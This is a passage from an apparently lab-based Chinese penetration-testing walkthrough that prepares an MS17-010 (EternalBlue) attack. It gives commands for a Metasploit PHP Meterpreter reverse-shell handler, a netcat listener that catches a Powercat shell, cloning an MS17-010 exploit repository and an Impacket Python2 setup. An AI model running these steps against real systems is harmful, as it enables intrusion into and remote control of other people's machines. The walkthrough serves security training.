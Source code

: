 在端口 53 上启动一个 PHP Meterpreter 侦听器来捕获 PHP 连接。

```
LHOST=192.168.62.161
LPORT=53
PAYLOAD=php/meterpreter_reverse_tcp
sudo msfconsole -qn -x "use exploit/multi/handler; set PAYLOAD $PAYLOAD; set LHOST $LHOST; set LPORT $LPORT; run";
```

![](img/d6b503cabcdde0a3ebb876ab6e0839b3.png)

16.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在端口 25 上启动一个 netcat 监听器来捕获 Powercat 连接。

```
rlwrap nc -nlvp 25
```

![](img/5531d8cd871cef249b6ff218cc9fb7f4.png)

准备 MS17–010 exploit
我们现在已经为有效载荷做好了准备。下一节是关于运行实际的利用。打开一个新的 Bash 终端实例来执行命令。

17.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

下载漏洞。

```
cd /tmp
git clone [https://github.com/helviojunior/MS17-010.git](https://github.com/helviojunior/MS17-010.git)
```

18.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在 Impacket 文件夹中启动 Python2 环境

```
cd /opt/impacket
sudo virtualenv impacket-venv -p $(which python2)
source impacket-venv/bin/activate
```
